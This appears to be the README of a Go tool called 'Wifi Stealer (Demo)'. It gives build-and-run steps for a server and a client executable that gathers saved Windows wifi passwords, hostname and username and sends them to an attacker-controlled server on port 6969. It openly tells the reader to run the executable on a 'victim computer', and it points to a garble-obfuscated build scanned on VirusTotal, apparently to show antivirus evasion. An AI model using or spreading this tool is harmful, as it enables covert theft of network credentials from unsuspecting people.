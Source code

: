 # Wifi Stealer (Demo)

Get saved wifi passwords of a windows computer in a server.

## Usage
Run the server
```sh
$ go run server.go
```
Then put the ip:6969 of your server in main.go file
Build main.go 
```sh
$ go build main.go
```
Then run the generated exe in victim computer

Possible output
```json
{
    "hostname":hostname,
    "time":"hr:min:ss_d-m-y",
    "username":"hostname\\user",
    "wifipw":{
        "ESSID":password,
        ...
        ...
    }
}
```



[Virus Total](https://www.virustotal.com/gui/file/afa99772ea2c41862aa5f0651b655e0c332dab6942c7ed02dc655f345c11ecd5?nocache=1) scan after built with [grable](https://github.com/burrowers/garble)
